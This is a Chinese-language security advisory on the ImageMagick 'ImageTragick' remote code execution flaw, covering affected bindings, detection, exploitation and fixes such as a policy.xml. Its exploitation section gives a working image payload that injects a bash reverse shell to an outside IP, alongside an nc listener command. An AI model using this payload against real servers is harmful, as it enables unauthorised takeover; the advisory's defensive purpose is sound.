 ```yaml
---
description: 详细介绍ImageMagick的漏洞危害自测方法、利用方式EXP和修复方案。
---
```


# ImageMagick安全详解

Feei <feei#feei.cn>

## 1. 漏洞危害 
ImageMagick是用来处理图片的通用组件，涉及众多语言与平台。 

- PHP(imagick/MagickWand) 
- Python(PythonMagick) 
- Java(JMagick) 
- Nodejs(imagemagick) 
- Ada(G2F) 
- C(MagickCore/MagickWand) 
- Ch(ChMagick) 
- C++(Magick++) 
- Lisp(L-Magick) 
- Neko/haXe(nMagick) 
- Pascal(PascalMagick) 
- Perl(PerlMagick) 
- Ruby(RMagick) 
- Tcl/TK(TclMagick) 

此次漏洞导致的直接危害为**远程代码执行（RCE）** 也就是说，如果你的业务中有用到ImageMagick处理图片，则攻击者只需要上传一个特殊构造的图片即可拿到你服务器的权限。 

## 2. 检测方式 

**检查是否有使用**
一般ImageMagick用在处理图片的裁剪、压缩以及水印等地方。如果你网站有上传图片的地方，就极有可能用到了。

可以通过关键字搜索： 

PHP代码关键字：```Imagick``` 
Java代码关键字：```MagickImage``` 

#### 1. 通过版本号确认是否存在 

**6.9.3-9**之前的版本都存在该漏洞(**6.9.3-9**版本不完全修复该漏洞)，建议升级至最新的**2016-05-09 7.0.1-3**。 
```bash 
$ convert --version 
Version: ImageMagick 6.8.3-7 2013-07-30 Q16 http://www.imagemagick.org 
Copyright: Copyright (C) 1999-2013 ImageMagick Studio LLC 
Features: DPC OpenMP Delegates: bzlib fontconfig freetype gslib jng jpeg pango png ps tiff x xml zlib 
```

#### 2. 检测脚本 

```bash 
$ git clone https://github.com/ImageTragick/PoCs.git 
$ cd PoCs 
$ ./test.sh 
``` 

## 3. 利用方式 

在自己服务器（此处演示为103.21.140.84）上开启监听端口7890 

```bash 
$ nc -vvl 7890 
```

将以下保存为test.jpg，上传到对应图片处理处。 

```bash
push graphic-context 
viewbox 0 0 640 480 
fill 'url(https://example.com/image.jpg"|bash -i >& /dev/tcp/103.21.140.84/7890 0>&1")' 
pop graphic-context 
```

在自己服务器（此处演示为103.21.140.84）上查看是否有反弹SHELL 

## 4. 修复方式 

**升级ImageMagick至最新的[2016-05-09 7.0.1-3](http://www.imagemagick.org/script/binary-releases.php)版本。** 

如果无法快速升级，先临时做好以下两点： 
1. 处理图片前，先检查图片的magic bytes，也就是图片头，如果图片头不是你想要的格式，那么就不调用ImageMagick处理图片。如果你是php用户，可以使用getimagesize函数来检查图片格式，而如果你是wordpress等web应用的使用者，可以暂时卸载ImageMagick，使用php自带的gd库来处理图片。 

2. 使用policy file来防御这个漏洞，这个文件默认位置在 /etc/ImageMagick/policy.xml ，我们通过配置如下的xml来禁止解析https等敏感操作： 

```xml 
<policymap>  
  <policy domain="coder" rights="none" pattern="EPHEMERAL" />
  <policy domain="coder" rights="none" pattern="URL" />
  <policy domain="coder" rights="none" pattern="HTTPS" />
  <policy domain="coder" rights="none" pattern="MVG" />
  <policy domain="coder" rights="none" pattern="MSL" />
  <policy domain="coder" rights="none" pattern="TEXT" />
  <policy domain="coder" rights="none" pattern="SHOW" />
  <policy domain="coder" rights="none" pattern="WIN" />
  <policy domain="coder" rights="none" pattern="PLT" />
</policymap>
```

### 参考 
- [ImageMagick Changelog](http://www.imagemagick.org/script/changelog.php) 
- [ImageTragick](https://imagetragick.com/)
- [PHP Imagick](http://pecl.php.net/package/imagick)
